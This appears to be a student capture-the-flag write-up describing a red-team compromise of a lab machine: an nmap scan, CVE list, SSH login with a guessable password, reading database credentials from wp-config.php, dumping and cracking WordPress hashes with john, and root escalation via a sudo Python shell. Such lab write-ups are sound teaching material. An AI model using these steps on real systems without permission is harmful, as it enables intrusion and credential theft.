 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache https 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` hash value_
   - **Exploit Used**
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag%201.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
    - Command: ssh michael@192.168.1.110 
    - The username and password for Michael's account is identical: michael
    - Command: locate *flag*
    - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

  - `flag3.txt`: 
   - **Exploit Used**
    - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
    - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
      - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

    - Used the credentials to log into MySQL and dump WordPress user password hashes.
     - DB_NAME: wordpress
     - DB_USER: root
     - DB_PASSWORD: R@v3nSecurity
     - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

    - Search MySQL database for Flag 3 and Wordpress user password hashes:
     - Flag 3 found in wp_posts.
     - Password hashes found in wp_users.
     - Command: show databases;
     - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
      - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
      - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

    - Screenshot of Wordpress user password hashes:
     - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)


  - `flag4.txt`:
   - **Exploit Used**
    - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
    - Cracking the hashed password using john.
    - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

    - Secure a user shell as the user whose password you cracked.
     - Command: ssh steven@192.168.1.110
     - Password: pink84
    - Escalating to root:
     - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)
      - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

    - Search for the root directory for Flag 4.
     - Command: cd /root/
     - Command: ls
     - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)

